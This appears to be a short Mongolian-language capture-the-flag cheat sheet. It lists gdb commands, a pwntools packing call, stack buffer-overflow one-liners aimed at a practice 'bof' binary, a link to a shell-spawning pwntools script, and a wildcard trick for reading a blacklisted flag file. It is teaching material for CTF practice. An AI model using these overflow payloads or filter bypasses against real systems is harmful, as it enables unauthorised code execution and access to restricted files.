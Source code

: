 Binary Exploitation
--------------------

* `gdb` 

	Командын мөрний түүл Linux үйлдлийн системийн binary файлуудтай маш сайн ажиллана. 
	* `disas main`      -> машины кодыг харуулна
	* `b *0x000012`     -> тухайн хаяган дээр break хийнэ
	* `info registers`  -> одоо байгаа register үүдийн утгийг харна
	* `set $esp=1`	    -> register ийн утгийг өөрчлөнө

* `pwntools`
	
	* `pwn.p32(0xcaf3baee)`

* `bof`

	* `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
	* `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`
	
* `Call shell using pwntools based on gets`
	
	* [pwntools-code](https://github.com/ByamB4/CaptureTheFlagTool/blob/master/BinaryExploitation/code/pwntools-call-shell.py)

Sandbox
--
* `????`
	
	* **?** бол гайхалтай тэмдэгт тухайн тэмдэгтийн оронд ямар ч тэмдэгт байж болохыг илэрхийлнэ. Жишээ нь **cat flag.txt** flag.txt **blacklist** дотор байлаа гэж үзвэл **cat ????????** гэвэл бас уншиж болох юм.
